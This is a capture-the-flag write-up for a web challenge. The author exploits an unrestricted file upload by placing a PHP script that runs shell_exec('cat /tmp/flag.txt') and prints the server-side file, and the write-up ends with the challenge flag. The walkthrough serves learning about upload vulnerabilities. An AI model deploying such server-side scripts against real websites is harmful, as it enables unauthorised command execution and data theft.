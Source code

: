 # Ghost (Web) - Digital Defenders CTF 2023

## Description
> While I was immersed in a thrilling session of Call of Duty, I suddenly got this amazing idea for a website. I'm quite excited to show it to you. Sometimes, unexpected sparks of inspiration can arise during gaming sessions, and this time, it resulted in a web development concept that I believe has real potential. With bated breath, I presented my creation to the world, eager to showcase its unique blend of functionality and security. As I navigated through the intricacies of the website, I couldn't help but feel a surge of pride. Drawing from the adrenaline-fueled atmosphere of gaming, I incorporated cutting-edge measures to ensure ironclad file protection. My creation promised a sanctuary where users could confidently entrust their precious data, shielded by layers of state-of-the-art encryption and impenetrable security features. So, without further ado, let me share my creation with you. I'm eager to hear your thoughts and see if my gaming-inspired idea can truly make an impact in the world of web development. I promise you, your files will be very secure.
>
> The flag is in _/tmp/flag.txt_

> **FLAG FORMAT:** bi0s{...}

## The Website
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/850271a8-a164-4009-b926-44d5777a44ce)
The website is looks pretty straightforward with a file upload option in sight.

I decided to see how it operates, and so uploaded a random png file.
  
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/44d135e4-e61b-43c3-b5fe-db894b9b5cec)
  
On hitting "Upload", there's a text that appears at the bottom of the page
  
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/b4798878-a9a8-4f1b-ba66-4c21b3d2a7b2)
  
On following the instructions and heading to `/uploads/<filename>`, we can access our file again.
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/c124d686-f2ca-45f5-8f6d-099bff1e78cb)

## Initial Takeaway
The first thing that caught my eye was of course the little text (baddly) placed right above the file select box.
  
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/11d79eb7-8557-4b20-abf7-15a8966a04bb)

Nothing immediate struck me on seeing this message, so I moved on. The next point of interest obviously was the fact that a file can be accessed, seemingly unmodified, after uploading it.
I also tried with text files, and got prompted by the 'Save File' dialog.
This gave me the idea that perhaps some script could be executed by uploading it to the website. Another point to note was the address of the page. The index page had a `.php` extension.
So perhaps I could exploit the site with some PHP script.

## Execution
Too test out if I could indeed exploit the file upload vulnerability with PHP, I wrote a Hello World program in PHP.
```PHP
<?php
echo "Hello, World!";
?>
```

Naming the file `script.php`, I uploaded the file on the website. Sure enough, on navigating to `/uploads/script.php`, I saw the familiar greeting
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/7c47588e-f165-463f-833b-d1e0d4f2a935)
  
In the description, they had mentioned that the flag is in `/tmp/flag.txt`. So, at this point, there was only one small change to make to the script.

I wrote a new script, very similar to the previous, but with the addition of a "payload".
```PHP
<?php
$output = shell_exec('cat /tmp/flag.txt');
echo "<pre>$output</pre>";
?>
```
  
The script executes the shell command `cat /tmp/flag.txt` and stores the output in the variable `output`. Then finally it prints it out in the browser.
After uploading and submitting the script, the output gives us what we need
  
![image](https://github.com/ghost-1608/CTF-Write-Ups/assets/64543976/bd76ec4f-c204-4bbe-bce9-c0719a62626c)

The only thing that remained unsolved was the meaning of the tiny message above the file selection box. Maybe it's there coz of how insane the price of COD games are.

**(DISCLAIMER):** One thing to note is that according to the information released by the organisers, some CTF challenges use dynamic flags. Hence, the flag I solved the challenge with and the flag at the time of writing this write-up are different.
The method however remains the same.
  
**FLAG:** `bi0s{RtU0M0F7GtX2Ho4r0FmCLA==}`
